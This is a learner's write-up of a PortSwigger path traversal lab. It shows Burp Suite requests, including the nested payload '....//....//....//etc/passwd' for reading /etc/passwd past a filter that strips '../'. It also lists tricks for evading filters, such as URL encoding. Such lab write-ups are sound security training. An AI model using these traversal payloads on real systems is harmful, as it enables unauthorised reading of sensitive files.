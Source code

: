 You might be able to use nested traversal sequences, such as ....// or ....\/. These revert to simple traversal sequences when the inner sequence is stripped.

 This lab contains a path traversal vulnerability in the display of product images.

The application strips path traversal sequences from the user-supplied filename before using it.

To solve the lab, retrieve the contents of the /etc/passwd file. 

## Write-up

1) ) I opened Burp-suite and immediately launched the browser in the **proxy** tab.
2) I pasted the Lab's link and intercepted it .
3) Then i chose a GET request : 

```Request in Proxy
GET /image?filename=13.jpg HTTP/2
Host: 0a6e009904051dfa81dad0f1004a00b7.web-security-academy.net
Cookie: session=fCnHEMGVGwXaQOOsbF49ze5ZLWYQa8xX
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0a6e009904051dfa81dad0f1004a00b7.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=2, i
```

4) Then I sent that **GET Request** to the repeater for tweaking it a bit. 

```Request in Repeater
GET /image?filename=....//....//....//etc/passwd HTTP/2
Host: 0aa200ae0410dccf82517e5000a700bf.web-security-academy.net
Cookie: session=kGyDZFYNyupEStU3zSAtPqSjt6aNoQmo
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0aa200ae0410dccf82517e5000a700bf.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=2, i
```

5) I successfully exploited the vulnerability and got the contents of /etc/passwd directory.


### **Key Takeaways:**

1. **Path Traversal Vulnerability**:
    - Path traversal vulnerabilities occur when an application improperly handles user-supplied file paths, allowing attackers to access files and directories outside of the intended directory.
2. **Basic Path Traversal Attack**:
    - The standard path traversal attack uses the `../` sequence to navigate up the directory structure and access files, such as sensitive system files (`/etc/passwd`).
3. **Nested Path Traversal**:
    - Attackers can bypass simple filters that remove `../` by using nested traversal sequences like `....//`, which may not be recognized or sanitized by the application.
    - These patterns are a shorthand representation of directory traversal, allowing attackers to "climb" multiple directories by repeating the sequence.
4. **How Nested Traversal Works**:
    - Example: `....//....//....//etc/passwd` bypasses simple sanitization by representing multiple `../` sequences.
    - The application might only remove or block simple `../` patterns but fail to recognize nested variations like `....//` or `....\/`, allowing unauthorized file access.
5. **Why Nested Traversal is Effective**:
    - **Stripping Logic**: Some applications only strip `../` sequences and don't account for variations.
    - **Normalization Issues**: Certain systems might fail to properly resolve or normalize nested path traversal sequences, leaving the server vulnerable to attacks.
    - **URL Encoding**: Attackers may also use URL encoding (e.g., `%2F` for `/` or `%2E` for `.`) in combination with nested sequences to further evade filters.
6. **Exploitation Process**:
    - The attacker modifies the filename parameter in the URL to use nested traversal patterns (e.g., `....//....//....//etc/passwd`).
    - This allows access to sensitive files outside the intended directory, as demonstrated by retrieving the contents of `/etc/passwd`.
